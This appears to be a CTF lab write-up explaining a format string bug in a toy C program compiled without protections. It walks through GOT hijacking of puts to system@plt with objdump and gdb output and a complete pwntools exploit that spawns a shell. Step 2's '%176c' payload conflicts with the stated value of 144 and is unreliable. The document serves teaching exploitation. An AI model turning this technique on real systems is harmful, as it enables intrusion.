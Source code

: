 # Simple PWN - 0x11(format string bug)
###### tags: `CTF` `PWN` `eductf`


## format string bug background
[printf %n](https://www.geeksforgeeks.org/g-fact-31/)
![](https://media.geeksforgeeks.org/wp-content/cdn-uploads/20191009172738/n-in-printf.jpg)

## Original Code
```cpp!=
#include <stdio.h>
#include <unistd.h>
#include <stdlib.h>

int main()
{
    setvbuf(stdin, 0, _IONBF, 0);
    setvbuf(stdout, 0, _IONBF, 0);

    char fmt[0x20];

    system("echo 'Give me fmt: '");
    read(0, fmt, 0x20);
    printf(fmt);

    system("echo 'Give me string: '");
    read(0, fmt, 0x20);
    puts(fmt);

    return 0;
}
```
```bash!
$ gcc -o fmt fmt.c -no-pie -fno-stack-protector -z norelro -zexecstack
```
* In this problem, we can consider to use `format string bug` to achieve `GOT hijacking` without buffer overflow.
* **The main idea is totally the same as [GOT hijacking lecture](https://hackmd.io/@UHzVfhAITliOM3mFSo6mfA/S1BBpSR5s)**
* Thus, we can observe which function can be overlapped by `system plt` → <font color="FF0000">**`puts function`**</font>
    * Because...
    `puts` just needs one argument like `system` function, but how about `printf`?
    Unfortunately, it appeared before 2nd read function, because 2nd `read` needs to store the argument for `system` function such as `sh\x00`.
## Exploit - GOT hijacking + format string bug
**Our goal is hijack `puts GOT` to `system plt`**
1. Find `puts GOT` address and `system plt` → <font color="FF0000">`0x403318` and `0x401090`</font>
    ```bash
    $ objdump -d fmt
    ...
    0000000000401090 <system@plt>:
      401090:       f3 0f 1e fa             endbr64
      401094:       f2 ff 25 85 22 00 00    bnd jmp *0x2285(%rip) # 403320 <system@GLIBC_2.2.5>
      40109b:       0f 1f 44 00 00          nopl   0x0(%rax,%rax,1)
    ...
    $ gdb fmt
    ...
    pwndbg> attach <PID>
    pwndbg> got

    GOT protection: No RELRO | GOT functions: 5

    [0x403318] puts@GLIBC_2.2.5 -> 0x401030 ◂— endbr64
    [0x403320] system@GLIBC_2.2.5 -> 0x7f87de291d60 (system) ◂— endbr64
    [0x403328] printf@GLIBC_2.2.5 -> 0x401050 ◂— endbr64
    [0x403330] read@GLIBC_2.2.5 -> 0x7f87de355980 (read) ◂— endbr64
    [0x403338] setvbuf@GLIBC_2.2.5 -> 0x7f87de2c2670 (setvbuf) ◂— endbr64
    ...
    ```
2. Construct format string - try and error
    ```python!
    r.sendafter("Give me fmt: ", b"%176c%8$hhn" + b"aaaaa" + p64(puts_got))
    ```
    **從結果來看比較清楚**
    ![](https://imgur.com/G4YPrXO.png)

    * Parse `b"%176c%8$hhn" + b"aaaaa" + p64(puts_got)`
Our goal is overlap `puts GOT`, so we put address of puts_got at final position, that is `[%rsp + 16]`(format string: `$8`)
We want to modify `0x401030` to `0x401090`, so we just modify only **1 bytes**(format string: `%hhn`). In addition, <font color="FF0000">`0x90` is 144</font> as decimal.(format string: `%176c`)
Combine all format sting: `%176c%8$hhn` and other space can pad trash bytes

3. Pass the command to `system` function - `sh\x00` to open shell
    ```python!
    r.sendafter("Give me string: ", "sh\x00")
    ```
4. Finally, we got shell!!!
    ![](https://imgur.com/Zh5jE4N.png)
    
* Whole exploit
    ```python!
    from pwn import *

    context.arch = 'amd64'

    r = process("./fmt")
    raw_input()

    puts_got = 0x403318
    system_plt = 0x401090

    r.sendafter("Give me fmt: ", b"%144c%8$hhn" + b"aaaaa" + p64(puts_got))
    r.sendafter("Give me string: ", "sh\x00")

    r.interactive()
    ```